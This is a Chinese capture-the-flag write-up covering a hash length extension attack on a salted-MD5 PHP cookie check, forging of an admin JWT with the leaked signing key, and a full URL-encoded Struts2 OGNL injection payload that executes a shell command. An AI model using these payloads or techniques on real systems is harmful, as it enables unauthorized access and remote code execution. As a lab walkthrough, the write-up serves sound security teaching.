 # Writeup

## 步骤1

登录进页面，在注释中发现`JWT_key.php`，猜测此次是与JWT相关

![image-20230703142514651](Writeup/image-20230703142514651.png)

访问`JWT_key.php`,发现源码

```php
<?php
highlight_file(__FILE__);
include "./secret_key.php";
include "./salt.php";
//$salt = XXXXXXXXXXXXXX // the salt include 14 characters
//md5($salt."adminroot")=e6ccbf12de9d33ec27a5bcfb6a3293df
@$username = urldecode($_POST["username"]);
@$password = urldecode($_POST["password"]);
if (!empty($_COOKIE["digest"])) {
    if ($username === "admin" && $password != "root") {
         if ($_COOKIE["digest"] === md5($salt.$username.$password)) {
            die ("The secret_key is ". $secret_key);
        }
        else {
            die ("Your cookies don't match up! STOP HACKING THIS SITE.");
        }
    }
    else {
        die ("no no no");
    }
}
```

发现此题是基于hash长度拓展攻击

`$salt`长度为14，并且知道`md5($salt."adminroot")=e6ccbf12de9d33ec27a5bcfb6a3293df`

观察源码，要想得到jwt，需要设置key为digest的cookie，并且username为admin，password不为root

打开`Hashpump工具`，输入相关参数

![image-20230703161546314](Writeup/image-20230703161546314.png)

其中`e73c228e8b50e5b3bcc6538c834e0f09`就是我们cookie中digest的值，

由于源码中的判断条件是`$_COOKIE["digest"] === md5($salt.$username.$password)`

并且$username=admin，因此password需要去掉admin

即$password为

```
root\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb8\x00\x00\x00\x00\x00\x00\x00aaa
```

经过url编码后得到最终的password：

```
root%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%b8%00%00%00%00%00%00%00aaa
```

因此，我们需要传递3个东西：

* cookie中的digest
* post传参username
* post传参password

![image-20230703173537133](Writeup/image-20230703173537133.png)

得到jwt_key: `sk-he00lctf3r`

## 步骤2

得到jwt_key后，我们返回主页面，查看cookie中的access_token:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ1c2VyIiwiZXhwIjoyMDAzOTg0NTkwfQ.plOP0NkPodstX61RDYjOO7l_PlW9fhngDcR_v87HL0c
```

在`http:jwt.io`中解密

![image-20230703143840694](Writeup/image-20230703143840694.png)

把sub的值改为admin，得到admin对应的jwt

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiIsImV4cCI6MjAwMzk4NDU5MH0.iZ0LyY2xwCGy_E3mcoiYhka4NxoAwd36HhfChUpZJJU
```

修改cookie中的access_token，然后刷新页面,发现重定向到新的页面

![image-20230703144004483](Writeup/image-20230703144004483.png)

## 步骤3

观察标签名，猜测与struts2漏洞有关

当用户提交 age 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。

payload:

```
%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27printenv+FLAG%27%29.getInputStream%28%29%29%29+%2B+%27
```

![image-20230703162628427](Writeup/image-20230703162628427.png)

![image-20230703162043219](Writeup/image-20230703162043219.png)

